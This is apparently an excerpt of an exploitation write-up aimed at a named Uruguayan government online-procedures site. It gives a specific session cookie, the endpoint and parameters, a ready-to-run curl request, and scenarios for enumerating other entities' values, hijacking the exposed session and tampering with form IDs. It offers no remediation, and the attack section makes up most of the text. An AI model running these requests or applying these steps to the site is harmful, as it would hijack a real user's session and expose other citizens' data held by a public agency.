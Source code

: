 ### 🟡 Medium Risk Issues

1. **Information Disclosure**
   - URL structure reveals internal application paths
   - Form IDs and attribute IDs expose internal structure

2. **Weak Authentication**
   - Only relies on session cookie without additional validation

## Minimum Data Required for Exploitation

### Essential Components:
1. **Session Cookie**: `JSESSIONID=DD9E282C3B94631BAD1F0AD7A75B6477`
2. **Base URL**: `https://tramites.ursec.gub.uy/tramites-en-linea/TramitesEnLinea//apia.execution.FormAction.run`
3. **Core Parameters**: 
   - `action=processFieldSubmit`
   - `frmId=6619`
   - `attId=11808`
4. **Data**: `value=98297150`

### Minimal Request:
```bash
curl "https://tramites.ursec.gub.uy/tramites-en-linea/TramitesEnLinea//apia.execution.FormAction.run?action=processFieldSubmit&frmId=6619&attId=11808" \
  -H "Content-type: application/x-www-form-urlencoded" \
  -b "JSESSIONID=DD9E282C3B94631BAD1F0AD7A75B6477" \
  --data-raw "value=98297150"
```

### Potentially Optional Parameters:
- `isAjax=true` (might be required for proper response format)
- `timestamp` (might be validated server-side)
- `tokenId` and `tabId` (might be session-specific)
- `frmParent=E`
- `index=0`

## Exploitation Scenarios

### 1. Entity Enumeration
Try incrementing/decrementing the value:
- `value=98297149`
- `value=98297151`
- `value=98297152`

### 2. Session Hijacking
Use the exposed session ID to access other parts of the application.

### 3. Parameter Manipulation
Modify `frmId`, `attId`, or other parameters to access different forms/attributes.
